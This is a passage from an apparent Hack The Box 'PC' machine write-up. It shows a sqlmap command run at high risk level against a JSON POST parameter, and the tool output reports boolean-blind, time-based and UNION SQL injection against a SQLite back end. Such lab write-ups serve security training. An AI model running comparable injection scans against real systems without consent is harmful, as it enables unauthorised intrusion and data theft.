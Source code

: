**SQLMap**  
```
┌──(matt㉿HackTheBoxKali)-[~/Pc]
└─$ sqlmap -r request.txt --batch --risk 3       
       __H__                                                                                                                               
 ___ ___[,]_____ ___ ___{1.7.6.3#dev}                                                                                                
|_ -| . [.]     | .'| . |                                                                                                                  
|___|_  ["]_|_|_|__,|  _|                                                                                                            
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:44:48 /2023-06-13/

[10:44:48] [INFO] parsing HTTP request from 'request.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
Cookie parameter '_grpcui_csrf_token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] N
[10:44:48] [INFO] testing connection to the target URL
[10:44:48] [INFO] testing if the target URL content is stable
[10:44:49] [INFO] target URL content is stable
[10:44:49] [INFO] testing if (custom) POST parameter 'JSON #1*' is dynamic
[10:44:49] [WARNING] (custom) POST parameter 'JSON #1*' does not appear to be dynamic
[10:44:49] [WARNING] heuristic (basic) test shows that (custom) POST parameter 'JSON #1*' might not be injectable
[10:44:49] [INFO] testing for SQL injection on (custom) POST parameter 'JSON #1*'
[10:44:49] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:44:50] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[10:44:50] [INFO] (custom) POST parameter 'JSON #1*' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable 
[10:44:52] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'SQLite' 
it looks like the back-end DBMS is 'SQLite'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'SQLite' extending provided level (1) value? [Y/n] Y
[10:44:52] [INFO] testing 'Generic inline queries'
[10:44:52] [INFO] testing 'SQLite inline queries'
[10:44:52] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[10:44:52] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[10:44:52] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[10:44:52] [INFO] testing 'SQLite > 2.0 OR time-based blind (heavy query)'
[10:45:05] [INFO] (custom) POST parameter 'JSON #1*' appears to be 'SQLite > 2.0 OR time-based blind (heavy query)' injectable 
[10:45:05] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[10:45:05] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[10:45:06] [INFO] target URL appears to be UNION injectable with 1 columns
[10:45:06] [INFO] (custom) POST parameter 'JSON #1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
[10:45:06] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
(custom) POST parameter 'JSON #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 75 HTTP(s) requests:
---
Parameter: JSON #1* ((custom) POST)
```

[//]: # (Project: HTB Machine Writeups - Generated with Python3)  
[//]: # (Title: HTB PC Writeup)  
[//]: # (Author: M4773L)  
[//]: # (Date: 16/06/2023 - 08:19 PM)  
[//]: # (Date_Modified: ) 
[//]: # (WEBSITE_URL: http://m4773l.github.io)
[//]: # (GITHUB_REPO_URL: https://github.com/M4773L)